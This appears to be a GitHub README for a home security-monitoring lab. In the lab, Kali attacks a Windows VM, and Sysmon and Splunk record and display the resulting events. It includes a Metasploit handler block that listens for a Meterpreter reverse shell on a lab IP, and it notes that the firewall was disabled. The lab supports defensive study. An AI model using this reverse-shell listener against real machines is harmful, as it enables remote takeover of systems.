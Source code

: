 # SOC-Homelab
This project is a **home SOC lab** demonstrating:

- Kali Linux as the attacker machine  
- Windows VM as the target machine  
- Sysmon installed on Windows to log system events  
- Splunk (or Splunk Universal Forwarder) to collect and visualize logs  

 This repository does **not include any malware or payload executables**
## Lab Goals
1. Simulate Windows event monitoring using Sysmon.  
2. Generate safe payloads for testing (e.g., Meterpreter in a controlled internal network).  
3. Capture and visualize logs in Splunk to understand attack behaviors.  

## Lab Setup
### Network
- **Internal Network** in VirtualBox for isolation.  
- Kali Linux VM IP: `192.168.20.11`  
- Windows VM IP: `192.168.20.10`  
- Subnet mask: `255.255.255.0`  

### Kali Linux VM
- Installed **Metasploit Framework** for testing payloads.  
- Generated **safe test payloads** with `msfvenom` using LHOST = Kali IP.  
- Started listener with `msfconsole`:

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.20.11
set LPORT 8888
exploit

Windows VM

Installed Sysmon with a configuration XML:
sysmon.exe -i sysmonconfig.xml
Disabled firewall temporarily for lab testing.
Verified Sysmon logs in Event Viewer:

Splunk Configuration

Installed Splunk Universal Forwarder on Windows VM.
Configured inputs.conf to collect Sysmon logs:
[WinEventLog://Microsoft-Windows-Sysmon/Operational]
disabled = 0
index = sysmon
sourcetype = XmlWinEventLog:Microsoft-Windows-Sysmon/Operational
Restarted Splunk service to begin indexing events.
Verified events appear in Splunk dashboards.
